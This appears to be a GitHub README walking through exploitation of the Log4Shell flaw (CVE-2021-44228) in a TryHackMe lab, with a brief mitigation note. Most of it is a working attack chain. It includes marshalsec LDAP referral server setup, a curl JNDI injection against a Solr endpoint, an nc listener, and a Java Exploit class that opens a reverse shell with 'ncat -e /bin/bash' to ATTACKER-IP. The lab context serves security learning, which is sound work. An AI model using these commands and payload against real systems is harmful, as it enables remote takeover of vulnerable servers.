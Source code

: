 
### Log4j2 Vulnerability Details: (CVE-2021-44228)

#### Info
- Sandbox - https://tryhackme.com/r/room/solar
  - You can use WSL on windows via VPN as a attacker sandbox system.
- Sandbox ( Video ) - https://www.youtube.com/watch?v=lJeAgQQaDEw
- Sandbox LDAP Server - https://github.com/mbechler/marshalsec.git

#### Gist
The exploit is enabled by these following commands :
1. Start the referral LDAP Server ( catches the lookup and forwards to malicious server )
   /mnt/c/_TEMP/LOG4JHACK/jvm8/jdk1.8.0_181/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER-IP:8000/#Exploit"

2. Prep the attacker server to serve the malicious Exploit.class
   python3 -m http.server 8000

3. Prepare the machine to catch the reverse connection using nc
   nc -lnvp 9999

4. Trigger the exploit by query injection in target machine
   curl 'http://TARGET-IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER-IP:1389/kuchbhi\}'

#### Vulnerable Versions
- jdk-8u181 - Java 1.8.0_181
- log4j-api:2.14.1

#### Useful commands :
- `sudo openvpn file.ovpn`
- `ip addr show | grep inet | grep global`
- `nc -lnvp 9999`
- `python3 -m http.server 8000`
- `curl 'http://TARGET-IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER-IP:9999\}'`
- `mvn clean package -DskipTests`

#### Payload
The java malicious payload is 
```java
public class Exploit {
    static{
     try {
         java.lang.Runtime.getRuntime().exec("ncat -e /bin/bash ATTACKER-IP 9999");
     }catch(Exception e){
         e.printStackTrace();
     }
    }
}
```


#### Mitigation
- `-Dlog4j2.formatMsgNoLookups=true`
- When log4j2.formatMsgNoLookups=true is set, it prevents Log4j from performing these lookups during message formatting, thus disabling any dynamic evaluation of ${} placeholders in the log messages.

#### References 
- jdk-8u181-linux-x64.tar.gz - https://www.oracle.com/in/java/technologies/javase/javase8-archive-downloads.html
- https://en.wikipedia.org/wiki/Log4Shell
- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/
